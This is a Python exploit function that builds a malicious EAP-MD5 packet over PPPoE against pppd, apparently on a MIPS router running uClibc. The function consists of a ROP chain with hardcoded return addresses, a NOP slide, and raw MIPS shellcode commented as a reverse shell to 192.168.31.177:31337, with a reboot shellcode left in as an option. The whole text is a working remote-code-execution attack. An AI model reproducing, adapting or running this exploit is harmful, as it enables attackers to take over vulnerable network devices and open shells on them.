 def eap_response_md5():

    md5 = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0A\x0B\x0C\x0D\x0E\x0F\x10"

    # Reverse shell, connect to 192.168.31.177:31337, written by Jacob Holcomb

    stg3_SC =  b"\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04\x28"
    stg3_SC += b"\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
    stg3_SC += b"\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
    stg3_SC += b"\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x09\x09\x01"
    stg3_SC += b"\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09\x01\xc9\x0f\x02\x24"
    stg3_SC += b"\x0c\x09\x09\x01\x79\x69\x05\x3c\x01\xff\xa5\x34\x01\x01\xa5\x20"
    stg3_SC += b"\xf8\xff\xa5\xaf\x1f\xb1\x05\x3c\xc0\xa8\xa5\x34\xfc\xff\xa5\xaf"
    stg3_SC += b"\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
    stg3_SC += b"\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
    stg3_SC += b"\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
    stg3_SC += b"\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
    stg3_SC += b"\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
    stg3_SC += b"\xab\x0f\x02\x24\x0c\x09\x09\x01"

    reboot_shell =  b"\x23\x01\x06\x3c"
    reboot_shell += b"\x67\x45\xc6\x34"
    reboot_shell += b"\x12\x28\x05\x3c"
    reboot_shell += b"\x69\x19\xa5\x24"
    reboot_shell += b"\xe1\xfe\x04\x3c"
    reboot_shell += b"\xad\xde\x84\x34"
    reboot_shell += b"\xf8\x0f\x02\x24"
    reboot_shell += b"\x0c\x01\x01\x01"

    s0 = b"\x40\x61\xF1\x77" # uclibc sleep() base + 0x6c140 = 77F16140
    s1 = b"\x01\x00\x00\x00"
    s2 = b"\x41\x41\x41\x41"
    s3 = b"\x00\x64\xFF\x7F" # 7ffd6000-7fff7000 rwxp 00000000 00:00 0          [stack]
    s4 = b"\x88\xe1\x40\x00" # pppd.txt:0x0040e188
    s5 = b"\x00\x00\x00\x00"

    ra = b"\x0C\x81\xF1\x77" # libuClibc.txt:0x0006e10c 77F1810C

    rop_chain =  (b'A' * 0x184)
    rop_chain += s0
    rop_chain += s1
    rop_chain += s2
    rop_chain += s3
    rop_chain += s4
    rop_chain += s5
    rop_chain += ra
    # Nop slide
    rop_chain += (b'\x00' * 0x100)
    # Small reboot shellcode for testing
    #rop_chain += reboot_shell
    rop_chain += stg3_SC
    # Just padding the end a little, since the last byte gets set to 0x00 and not everyone uses a 4 * 0x00 as nop
    rop_chain += (b'\x00' * 0x4)
    pay = Ether(dst=dst,src=src,type=0x8864)/PPPoE(code=0x00,sessionid=sessionid)/PPP(proto=0xc227)/EAP_MD5(id=100,value=md5,optional_name=rop_chain)
    mysend(pay)

